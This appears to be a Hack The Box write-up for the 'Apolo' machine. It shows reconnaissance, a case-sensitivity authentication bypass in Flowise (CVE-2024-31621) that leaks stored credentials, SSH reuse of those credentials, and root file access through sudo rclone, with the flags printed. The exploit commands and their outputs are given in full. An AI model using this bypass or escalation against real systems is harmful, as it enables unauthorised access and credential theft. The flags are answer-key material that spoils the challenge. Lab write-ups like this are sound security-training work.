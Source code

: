 ![](assets/images/banner.png)


<font size="10">Apolo</font>
15<sup>th</sup> December 2024

### Difficulty:

`Very Easy`

### Flags:

User: `HTB{llm_ex9l01t_4_RC3}`

Root: `HTB{cl0n3_rc3_f1l3}`

# Enumeration
Using `curl`, I probed the IP address `10.129.231.24` and observed a redirection to `apolo.htb`:
```
seclzi@anonymous:~$ curl http://10.129.231.24 -v
*   Trying 10.129.231.24:80...
* Connected to 10.129.231.24 (10.129.231.24) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.129.231.24
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 16 Dec 2024 09:59:00 GMT
< Content-Type: text/html
< Content-Length: 154
< Connection: keep-alive
< Location: http://apolo.htb/
< 
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
* Connection #0 to host 10.129.231.24 left intact
```
The server responded with a **302 Found** status, redirecting me to `apolo.htb`. To proceed, I added the domain `apolo.htb` to the `/etc/hosts` file for local resolution.

#### Nmap Scan
Next, I conducted a detailed scan using `nmap`:
```
seclzi@anonymous:~$ sudo nmap -sC -sV -sS apolo.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-16 17:06 WIB
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 17:07 (0:00:06 remaining)
Nmap scan report for apolo.htb (10.129.231.24)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Apolo
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.90 seconds
```

The scan revealed two open ports:

- **Port 22 (SSH):** OpenSSH 8.2p1
- **Port 80 (HTTP):** Nginx 1.18.0 (Ubuntu)

#### Subdomain Discovery

Examining the web page's source code, I found a subdomain `ai.apolo.htb`. To access it, I added this subdomain to the `/etc/hosts` file.

Upon visiting `ai.apolo.htb`, I gathered the following details:

- The subdomain is powered by **FlowiseAI**, a platform with a known vulnerability.
- Access to the AI interface requires login credentials.

---

![[assets/images/Pasted image 20241216171139.png]]

![[assets/images/Pasted image 20241216171721.png]]
#### Observations

The initial enumeration uncovered two critical pieces of information:

1. **Vulnerability in FlowiseAI:** A known authentication bypass vulnerability (CVE-2024-31621) could potentially be exploited.
2. **Host Configuration:** The server is running on an Ubuntu Linux system with services accessible through SSH and HTTP.

These findings set the stage for further exploitation of the FlowiseAI platform.
# Foothold

![[assets/images/Pasted image 20241216172037.png]]
While researching Flowise, I discovered that versions <= 1.6.5 are vulnerable to a known issue listed as `CVE-2024-31621`.
### CVE-2024-31621: Flowise 1.6.5 - Authentication Bypass Vulnerability

#### **Overview**
Flowise version <= 1.6.5 is vulnerable to an **authentication bypass vulnerability** due to improper handling of **case sensitivity** in the authentication middleware.

---

### **Vulnerability Description**
The vulnerability lies in the following code snippet:

```javascript
this.app.use((req, res, next) => {
    if (req.url.includes('/api/v1/')) {
        whitelistURLs.some((url) => req.url.includes(url)) ?
        next() : basicAuthMiddleware(req, res, next)
    } else next()
});
```
### **Logic Flaw**
- The middleware checks if the URL contains `/api/v1/` (in lowercase) to enforce authentication, except for specific **whitelisted endpoints**.
- This check is **case-sensitive**, meaning uppercase variations of the URL (e.g., `/API/V1` or `/Api/v1`) bypass the authentication middleware.

### **EXPLOIT PoC**
I exploited this vulnerability by targeting the `/Api/v1/credentials` endpoint:
```
seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials
```
**Output:**
```
[{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}]
```
The endpoint revealed a credentials ID. Next, I accessed the credentials directly using the extracted ID:
`seclzi@anonymous:~$ curl http://ai.apolo.htb/Api/v1/credentials/6cfda83a-b055-4fd8-a040-57e5f1dae2eb`
**Output:**
`{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z","plainDataObj":{"mongoDBConnectUrl":"mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority"}}`

---

### **Accessing the Shell**

The `mongoDBConnectUrl` revealed the username `lewis` and password `C0mpl3xi3Ty!_W1n3`. I used these credentials to attempt SSH access.
![[assets/images/Pasted image 20241216173546.png]]
Bingo, we get the user !!!
# Lateral Movement
After gaining access to the user `lewis`, I enumerated their `sudo` privileges using `sudo -l` and discovered the following:

```
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

This indicated that `lewis` could execute the `rclone` command as root without a password. I leveraged this privilege to copy the `root.txt` flag from the `/root/` directory into my accessible `/home/lewis/` directory.

#### Exploitation Steps:

1. Used the following command to copy the `root.txt` file:
```
	lewis@apolo:~$ sudo rclone copy /root/root.txt /home/lewis/root.txt 
	
	2024/12/16 10:36:49 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
```

2. Verified the presence of the `root.txt` file in my home directory:
    
```
	lewis@apolo:~$ ls -la
	total 32
	drwxr-xr-x 4 lewis lewis 4096 Dec 16 10:36 .
	drwxr-xr-x 3 root  root  4096 Oct 28 11:34 ..
	lrwxrwxrwx 1 root  root     9 Dec  4 07:17 .bash_history -> /dev/null
	-rw-r--r-- 1 lewis lewis  220 Oct 28 11:34 .bash_logout
	-rw-r--r-- 1 lewis lewis 3771 Oct 28 11:34 .bashrc
	drwx------ 2 lewis lewis 4096 Nov 14 07:33 .cache
	-rw-r--r-- 1 lewis lewis  807 Oct 28 11:34 .profile
	drwxr-xr-x 2 root  root  4096 Dec 16 10:36 root.txt
	-rw-r----- 1 root  lewis   23 Nov 21 08:54 user.txt
```

    
3. Finally, I read the contents of the flag:
    
    ```
	lewis@apolo:~$ cat root.txt/root.txt && cat user.txt 
	HTB{cl0n3_rc3_f1l3}
	HTB{llm_ex9l01t_4_RC3}
	```
    

Bingo! The `root.txt` and `user.txt` flag was successfully retrieved.
